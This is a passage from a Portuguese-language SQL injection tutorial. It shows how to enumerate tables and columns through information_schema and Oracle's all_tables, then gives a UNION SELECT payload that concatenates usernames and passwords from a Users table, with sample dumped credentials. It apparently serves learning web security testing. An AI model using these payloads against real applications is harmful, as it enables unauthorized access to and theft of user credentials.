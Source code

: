 O retorno será algo similar a isso:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

O output do select indica que existe 3 tabelas, Products, Users e Feedback.
Ok, temos as tabelas, mas e as colunas?

Podemos buscar as colunas na tabela `information_schema.columns` da seguinte maneira, vamos buscar as colunas da tabela Users:

```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
O retorno seria:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
No resultado da query temos os nomes das colunas da tabela `Users`.

Mas e o Oracle que não tem `information_schema`?

#### Buscando informações no DB Oracle

A tabela equivalente no oracle é a `all_tables`:

```sql
SELECT * FROM all_tables
```

e para listar as colunas é a `all_tab_columns` da seguinte maneira:

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'Users'
```

#### Trazendo valores quando apenas uma das colunas é compatível com string

Vamos levar em consideração o exemplo anterior, onde a tabela é `Users` e existem as colunas `username` e `password`, podemos utilizar o `concat` se for `MYSQL` da seguinte maneira:

`' UNION SELECT username concat(username, '~', password) FROM Users--`

O resultado seria algo similar a isso:

```
...
administrator~s3cr3tpass
renan~thisisactuallymyrealpassword
jubiscreide~omgwhatwonderfullname
...
```
Para saber como funciona a concatenação em cada banco podemos consultar a documentação ou buscar `cheat sheets` referente a isso, inclusive existe o da [`portswigger`](https://portswigger.net/web-security/sql-injection/cheat-sheet) que é muito bom.

